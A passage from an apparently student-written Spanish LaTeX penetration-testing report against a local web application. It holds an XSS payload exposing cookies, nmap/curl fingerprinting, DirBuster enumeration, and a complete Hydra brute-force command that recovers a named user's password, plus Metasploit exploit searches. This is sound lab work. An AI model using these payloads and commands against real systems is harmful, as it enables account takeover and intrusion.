                        \end{figure}
                    \end{itemize}
                    \item \texttt{<script>var paragraph = document.createElement('p');paragraph.textContent = 'Cookie: ' + document.cookie;document.body.appendChild(paragraph);</script>}
                    \begin{itemize}
                        \item Este código nos muestra el contenido de la cookie de PHP
                        \begin{figure}[H]
                            \centering
                            
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.3/2.4.png}
                            \caption{Cookie XSS}
                        \end{figure}
                    \end{itemize}
                \end{enumerate}
                Este tipo de vulnerabilidad es muy peligrosa ya que permite a un atacante ejecutar código en el navegador de la víctima y realizar acciones en su nombre.
                También hemos visto que podemos redirigir a la víctima a una página maliciosa, lo que nos permitirá realizar un ataque de tipo Phishing.
                Aunque la carga de la imagen no parezca muy peligrosa, esta, en realidad puede darnos información como la IP de los usuarios que visitan la página ya que para cargar dicha imagen se realiza una petición al servidor donde esta alojada dejando su IP en el camino.
                En este caso, hemos visto que podemos llegar incluso a ver la cookie de la víctima igual que en la sección 2.2.3. pero de forma manual.
                \clearpage
        \section{Configuración de seguridad insuficiente}
            \subsection{Fuga de información}
                La fuga de información es un problema muy común en las páginas web.
                En este caso, vamos a ver cómo podemos obtener información sensible de la página web.\\

                Para empezar, obtendremos información del servidor como son el tipo de servidor y el sistema operativo.
                Para esto vamos a utilizar la herramienta Nmap.
                Nmap es un escáner de puertos que nos permite obtener información de los servicios que se están ejecutando en un servidor.
                \begin{center}
                    \texttt{sudo nmap -sV -O localhost}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/1.1.png}
                    \caption{Información del servidor}
                \end{figure}
                Como podemos ver el servidor está ejecutando Apache 2.4.25 en un sistema operativo Debian con una versión de Kernel 2.6.32.\\
                Esta es información muy valiosa para un atacante ya que le permite saber que vulnerabilidades puede explotar para atacar el servidor.\\
                \clearpage
                Ahora vamos a ver si podemos obtener información de la versión de PHP que está ejecutando el servidor.
                Para ello, en vez de la herramienta Nmap, vamos a fijarnos en las cabeceras HTTP que nos devuelve el servidor.
                Para ello, vamos a utilizar la herramienta curl.
                \begin{center}
                    \texttt{curl -I localhost:81}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/1.2.png}
                    \caption{Cabeceras HTTP}
                \end{figure}
                Como podemos ver, en las cabeceras HTTP nos devuelve la versión de PHP que está ejecutando el servidor es la 7.2.2.
                Esta información al igual que la anterior, la cual se verifica en la cabecera, es muy valiosa para un atacante.\\

                El llegar a conocer toda esta información del servidor es una brecha importante de seguridad.

            \clearpage
            \subsection{Enumeración de directorios}
                La enumeración de directorios es un ataque que consiste en obtener información de los directorios que hay en el servidor.
                Para ello, vamos a utilizar la herramienta DirBuster.
                DirBuster es una herramienta que nos permite enumerar los directorios de un servidor web basado en fuerza bruta y diccionarios.
                En este caso voy a utilizar el diccionario 'directory-list-2.3-medium.txt' que viene por defecto con la herramienta.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/2.1.png}
                    \caption{DirBuster}
                \end{figure}
                En la imagen se ve que además de dar la dirección del servidor y el diccionario he pedido que busque elementos de tipo PHP, HTML, CSS y JS.
                \clearpage
                Una vez terminado el escaneo con 4.410.965 de nombres de archivos y directorios, DirBuster nos ha dado los siguientes resultados:
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/2.2.png}
                    \caption{Resultados de DirBuster}
                \end{figure}
                Como podemos ver, DirBuster nos ha dado una lista de directorios que existen en el servidor.
                Aunque en esta lista no estén todos los directorios que existen en el servidor, sí que nos da una idea de que directorios existen y cuáles no.
                Esta información es muy valiosa para un atacante ya que le permite saber que directorios puede atacar para intentar obtener información sensible.\\
            \clearpage
            \subsection{Fuerza bruta}
                Fuerza bruta es un ataque que consiste en probar todas las combinaciones posibles de un conjunto de caracteres para obtener una contraseña.
                En este caso, vamos a realizar un ataque de fuerza bruta para obtener la contraseña de un usuario.
                Para ello, vamos a utilizar la herramienta Hydra.
                Hydra es una herramienta que nos permite realizar ataques de fuerza bruta a servicios como SSH, FTP, HTTP, etc.
                Este ataque es posible debido a que la página web no tiene ninguna protección contra este tipo de ataques.
                Para empezar, vamos a acceder a la página web donde podemos ver que existen publicaciones de un usuario llamado 'ImanolMM'.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.1.png}
                    \caption{Publicaciones de ImanolMM}
                \end{figure}
                Con esta información, vamos a realizar el ataque de fuerza bruta para obtener la contraseña de este usuario.
                Para ello, vamos a crear un diccionario mediante la herramienta cupp.
                Cupp es una herramienta que nos permite crear diccionarios personalizados para realizar ataques de fuerza bruta.
                En este caso, vamos a crear un diccionario con el nombre del usuario y su fecha de nacimiento.
                Esta información, en nuestro caso, viene de la inyección de SQL que hemos realizado anteriormente.
                De todas formas, esta información se puede obtener de redes sociales como Facebook, Twitter, etc.
                \begin{center}
                    \texttt{cupp -i}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.2.png}
                    \caption{Creación de diccionario}
                \end{figure}
                \clearpage
                Con el diccionario creado, vamos a realizar el ataque de fuerza bruta.
                Para ello, como he comentado, usaremos la herramienta Hydra.
                \begin{center}
                    \texttt{hydra -l ImanolMM -P imanol.txt localhost -s 81 http-post-form "/submit.php:nombre=\&telefono=\&dni=\&email=\&nacimiento=\&\\usuario=\^USER\^ \&passwd=\^PASS\^ \&tiporegistro=signin:Usuario o contraseña incorrecta"}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.4/3.3.png}
                    \caption{Ataque de fuerza bruta}
                \end{figure}
                Como podemos ver, el ataque ha sido exitoso y hemos obtenido la contraseña del usuario.
                Obviamente, este ataque ha sido muy sencillo ya que se utiliza contraseñas muy débiles, pero nos sirve para ver que es posible realizar este tipo de ataques.
                \clearpage
        \section{Componentes vulnerables y obsoletos}
            \subsection{Explotación mediante Metasploit}
                Metasploit es un framework que nos permite realizar una infinidad de ataques.
                En este caso, vamos a utilizar Metasploit para buscar primero exploits que afecten a la versión de Apache y de PHP que está ejecutando el servidor.
                Para ello, primero, vamos a iniciar Metasploit.
                \begin{center}
                    \texttt{sudo msfconsole}
                \end{center}
                Una vez iniciado, vamos a buscar exploits que afecten a la versión de Apache y PHP que está ejecutando el servidor.
                \begin{center}
                    \texttt{search apache 2.4.25}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.8\textwidth]{./img/vulnerabilidades/2.5/1.1.png}
                    \caption{Búsqueda de exploits}
                \end{figure}
                Ningún resultado encontrado.\\
                \begin{center}
                    \texttt{search PHP 7.2.2}
                \end{center}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.8\textwidth]{./img/vulnerabilidades/2.5/1.2.png}
                    \caption{Búsqueda de exploits}
                \end{figure}
                En este caso, tenemos un resultado que podría afectar a la versión de PHP que está ejecutando el servidor. Por desgracia, este exploit es para Nginx y no para Apache.\\
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.8\textwidth]{./img/vulnerabilidades/2.5/1.3.png}
                    \caption{Información del exploit}
                \end{figure}
                Esto nos indica que no hay exploits para la versión de Apache y PHP que está ejecutando el servidor.\\
                \clearpage
        \section{Fallos de identificación y autenticación}
            \subsection{Invalidación de sesiones}
                La invalidación de sesiones es un problema en el que una sesión no se invalida correctamente y permite a un atacante acceder a la página web en nombre de un usuario.
                En este caso, vamos a realizar un ataque de invalidación de sesiones para acceder a la página web en nombre de un usuario.
                Para ello simplemente vamos a iniciar sesión en la página web y vamos a cerrar sesión.
                Una vez cerrada la sesión, vamos a darle al botón de 'Atrás' del navegador para volver a la página de inicio.
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.7\textwidth]{./img/vulnerabilidades/2.6/1.1.png}
                    \caption{Inicio de sesión}
                \end{figure}
                \begin{figure}[H]
                    \centering
                    
\includegraphics[width=0.7\textwidth]{./img/vulnerabilidades/2.6/1.2.png}
                    \caption{Cierre de sesión}
                \end{figure}
                \begin{figure}[H]
                    \centering
